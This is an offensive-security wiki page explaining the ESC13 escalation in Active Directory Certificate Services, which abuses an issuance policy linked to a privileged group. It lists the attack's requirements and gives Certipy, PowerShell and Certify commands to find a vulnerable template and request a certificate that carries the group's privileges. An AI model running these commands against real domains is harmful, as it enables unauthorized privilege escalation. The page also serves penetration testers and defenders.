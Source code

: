 # (ESC13) Issuance Policy With Privileged Group Linked

For a group to be linked to an issuance policy via `msDS-OIDToGroupLink` it must meet two requirements:

* Be empty
* Have a universal scope, i.e. be "Forest Wide". By default, "Forest Wide" groups are "Enterprise Read-only Domain Controllers", "Enterprise Key Admins", "Enterprise Admins" and "Schema Admins"

So, if a user or a computer can enroll on a template that specifies an issuance policy linked to a highly privileged group, the issued certificate privilegies will be mapped to those of the group.

To exploit ESC13, here are the requirements:

* The controlled principal can enroll to the template and meets all the required issuance policies
* The template specifies an issuance policy
* This policy is linked to a privileged groups via `msDS-OIDToGroupLink`
* The template allows the Client Authentication in its EKU
* All the usual requirements

From UNIX-like systems, this [pull request](https://github.com/ly4k/Certipy/pull/196) on Certipy permits to identify a certificate template with an issuance policy, i.e. with the `msPKI-Certificate-Policy` property not empty. Additionally, it verifies if this issuance policy has an OID group link to a group in the property `msDS-OIDToGroupLink`.
```bash
certipy find -u '$USER@$DOMAIN' -p '"$PASSWORD' -dc-ip '$DC_IP'
```

If a vulnerable template is found, there is no particular issuance requirement, the principal can enroll, and the template indicates the Client Authentication EKU, request a certificate for this template with [Certipy](https://github.com/ly4k/Certipy) as usual:
```bash
certipy req -u "$USER@$DOMAIN" -p "$PASSWORD" -dc-ip "$DC_IP" -target "$ADCS_HOST" -ca 'ca_name' -template 'Vulnerable template'
```

The certificate can then be used with Pass-the-Certificate to obtain a TGT and authenticate as the controlled principal, but with its privileges added to those of the linked group.

From Windows systems, the ActiveDirectory PowerShell module can be used to identify a certificate template with an issuance policy, i.e. with the `msPKI-Certificate-Policy` property not empty.
```powershell
Get-ADObject "CN="Vulnerable template",$TemplateContainer" -Properties msPKI-Certificate-Policy
```

Then, if there is no particular issuance requirement, the principal can enroll, and the template indicates the Client Authentication EKU, verify if this issuance policy has an OID group link to a group in the property `msDS-OIDToGroupLink`.
```powershell
Get-ADObject "CN=$POLICY_ID,$OIDContainer" -Properties DisplayName,msPKI-Cert-Template-OID,msDS-OIDToGroupLink
```

Now, request a certificate for this template with [Certify](https://github.com/GhostPack/Certify) as usual:
```powershell
.\Certify.exe request /ca:domain\ca /template:"Vulnerable template"
```

The certificate can then be used with Pass-the-Certificate to obtain a TGT and authenticate as the controlled principal, but with its privileges added to those of the linked group.